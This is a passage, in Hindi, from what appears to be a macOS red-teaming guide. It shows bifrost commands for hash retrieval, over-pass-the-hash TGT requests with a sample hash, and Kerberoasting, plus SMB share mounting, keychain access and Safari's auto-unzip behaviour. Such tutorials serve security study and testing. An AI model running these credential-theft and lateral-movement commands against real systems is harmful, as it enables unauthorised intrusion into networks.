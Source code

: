 पासवर्ड प्राप्त करने के लिए:
```bash
bifrost --action askhash --username [name] --password [password] --domain [domain]
```
यह **`Computer$`** पासवर्ड को सिस्टम कीचेन के अंदर एक्सेस करना संभव है।

### ओवर-पास-दी-हैश

एक विशिष्ट उपयोगकर्ता और सेवा के लिए TGT प्राप्त करें:
```bash
bifrost --action asktgt --username [user] --domain [domain.com] \
--hash [hash] --enctype [enctype] --keytab [/path/to/keytab]
```
एक बार TGT इकट्ठा हो जाने के बाद, इसे वर्तमान सत्र में इंजेक्ट करना संभव है:
```bash
bifrost --action asktgt --username test_lab_admin \
--hash CF59D3256B62EE655F6430B0F80701EE05A0885B8B52E9C2480154AFA62E78 \
--enctype aes256 --domain test.lab.local
```
### Kerberoasting
```bash
bifrost --action asktgs --spn [service] --domain [domain.com] \
--username [user] --hash [hash] --enctype [enctype]
```
प्राप्त सेवा टिकटों के साथ अन्य कंप्यूटरों में शेयरों तक पहुँचने की कोशिश करना संभव है:
```bash
smbutil view //computer.fqdn
mount -t smbfs //server/folder /local/mount/point
```
## Keychain तक पहुँच

Keychain में संवेदनशील जानकारी हो सकती है जो बिना प्रॉम्प्ट उत्पन्न किए पहुँचने पर एक रेड टीम अभ्यास को आगे बढ़ाने में मदद कर सकती है:

{% content-ref url="macos-keychain.md" %}
[macos-keychain.md](macos-keychain.md)
{% endcontent-ref %}

## बाहरी सेवाएँ

MacOS रेड टीमिंग सामान्य Windows रेड टीमिंग से अलग है क्योंकि आमतौर पर **MacOS कई बाहरी प्लेटफार्मों के साथ सीधे एकीकृत होता है**। MacOS की एक सामान्य कॉन्फ़िगरेशन है **OneLogin समन्वयित क्रेडेंशियल्स का उपयोग करके कंप्यूटर तक पहुँच प्राप्त करना, और OneLogin के माध्यम से कई बाहरी सेवाओं (जैसे github, aws...) तक पहुँच प्राप्त करना**।

## विविध रेड टीम तकनीकें

### सफारी

जब सफारी में एक फ़ाइल डाउनलोड की जाती है, यदि यह एक "सुरक्षित" फ़ाइल है, तो यह **स्वतः खोली जाएगी**। तो उदाहरण के लिए, यदि आप **एक ज़िप डाउनलोड करते हैं**, तो यह स्वचालित रूप से अनज़िप हो जाएगी:
